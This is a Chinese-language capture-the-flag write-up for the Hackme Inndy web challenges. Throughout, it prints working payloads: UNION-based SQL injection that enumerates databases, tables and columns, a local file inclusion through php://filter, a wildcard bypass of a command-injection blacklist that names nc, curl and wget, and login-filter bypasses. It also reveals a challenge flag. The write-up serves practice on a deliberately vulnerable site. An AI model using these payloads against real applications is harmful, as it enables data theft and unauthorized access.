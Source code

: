 [Hackme Inndy CTF](htts://hackme.inndy.tw)
===

參賽者：Will

## Web
### 0x01 hide and seek
#### https://hackme.inndy.tw/

看網站原始碼並尋找 `FLAG{` 

![](https://i.imgur.com/Vm6Xy2E.png)



### 0x02 guestbook
#### https://hackme.inndy.tw/gb/

**Payload 1:** 取得資料庫名 g8

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,database(),4#`

**Payload 2:** 得到資料庫表名 flag

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='g8' limit 0,1),4#`

**Payload 3:** 得到資料庫列名 flag

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='flag' limit 1,1),4#`

**Payload 4:** 拿到該題 `flag`

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select flag from flag limit 1,1),4#`



### 0x03 LFI
#### https://hackme.inndy.tw/lfi/?page=pages/index

**Payload 1:**

`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag`

base64 decode 後得到 flag.php

``` php
Can you read the flag<?php require('config.php'); ?>?
```

**Payload 2:**

`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config`

base64 decode 後得到 config.php

``` php
<?php

$flag = "FLAG{Yoooooo_LFI_g00d_2cXxsXSYP9EVLrIo}";
```



### 0x04 homepage
#### https://hackme.inndy.tw/

查看原始碼得知 [cute.js](https://hackme.inndy.tw/cute.js)

aaencode 解碼後得到 js 原始碼

在 Firefox Console 執行得到 QR Code 掃描後得到 flag

![](https://i.imgur.com/eHkN7wF.png)



### 0x05 ping
#### https://hackme.inndy.tw/ping/

有一串黑名單陣列, 發現 `sort` 沒防護到

``` php
$blacklist = [
            'flag', 'cat', 'nc', 'sh', 'cp', 'touch', 'mv', 'rm', 'ps', 'top', 'sleep', 'sed',
            'apt', 'yum', 'curl', 'wget', 'perl', 'python', 'zip', 'tar', 'php', 'ruby', 'kill',
            'passwd', 'shadow', 'root', 'z',
            'dir', 'dd', 'df', 'du', 'free', 'tempfile', 'touch', 'tee', 'sha', 'x64', 'g',
            'xargs', 'PATH',
            '$0', 'proc',
            '/', '&', '|', '>', '<', ';', '"', '\'', '\\', "\n"
        ];
```

**Payload:**

`sort fl????hp`





### 0x06 scoreboard
#### https://hackme.inndy.tw/scoreboard/

**Payload:** X-Flag 就是 flag

`curl -I https://hackme.inndy.tw/scoreboard/`



### 0x07 login as admin 0
#### https://hackme.inndy.tw/login0/

過濾可以知道 `'` 會被取代成 `\\'`, 因此 `\'` 可以濾過

``` javascript
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
```

**Payload 1:** 得到 guest

``` 
username = \' || 1#
password = 1
```

**Payload 2:** 得到 admin & flag

``` 
username = \' || 1 limit 1,1#
password = 1
```



### 0x08 login as admin 0.1
#### https://hackme.inndy.tw/login0/
**Payload 1:** 2 會有反應

``` 
username = \' union select 1,2,3,4#
password = 1
```

**Payload 2:** 得到資料庫為 `login_as_admin0`

``` 
username = \' union select 1,database(),3,4#
password = 1
```

**Payload 3:** 得到資料庫表名 `h1dden_f14g`

```
username = \' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1),3,4#
password = 1
```

**Payload 4:** 得到資料庫列名 `the_f14g`

```
username = \' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME=0x68316464656e5f66313467 limit 0,1),3,4#
password = 1
```

**Payload 4:** 得到 flag

```
username = \' union select 1,(select the_f14g from h1dden_f14g limit 0,1),3,4#
password = 1
```

